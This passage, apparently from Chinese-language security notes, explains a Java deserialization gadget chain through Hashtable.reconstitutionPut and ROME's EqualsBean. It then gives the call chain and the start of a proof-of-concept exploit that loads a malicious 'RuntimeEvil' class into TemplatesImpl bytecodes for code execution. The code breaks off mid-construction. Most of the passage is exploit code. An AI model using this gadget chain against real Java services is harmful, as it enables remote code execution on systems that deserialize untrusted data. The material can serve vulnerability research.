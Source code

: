 


#### HashTable链

用HashTable.reconstitutionPut触发equals

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240926185347607.png)

一样的hash碰撞才能进for循环

HashTable POC：

```java
package org.exploit.third.rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.shiro.crypto.hash.Hash;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Hashtable;


//HashSet.readObject
//HashMap.put
//HashMap.putval
//HashMap.equals
//AbastractMap.equals
//EqualsBean.equals
//EqualsBean.beanEquals
//TemplatesImpl.getOutputProperties()
//or
//HashTable.readObject(ObjectInputStream)
//HashTable.reconstitutionPut()
//HashMap.equals
//AbstractMap.equals
//EqualsBean.equals
//EqualsBean.beanEquals
//TemplatesImpl.getOutputProperties()
public class Rome_EqualsBeans {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\TemplatesImpl_RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        TemplatesImpl fakeTemplates = new TemplatesImpl();
        HashMap fakehashMap = new HashMap();
```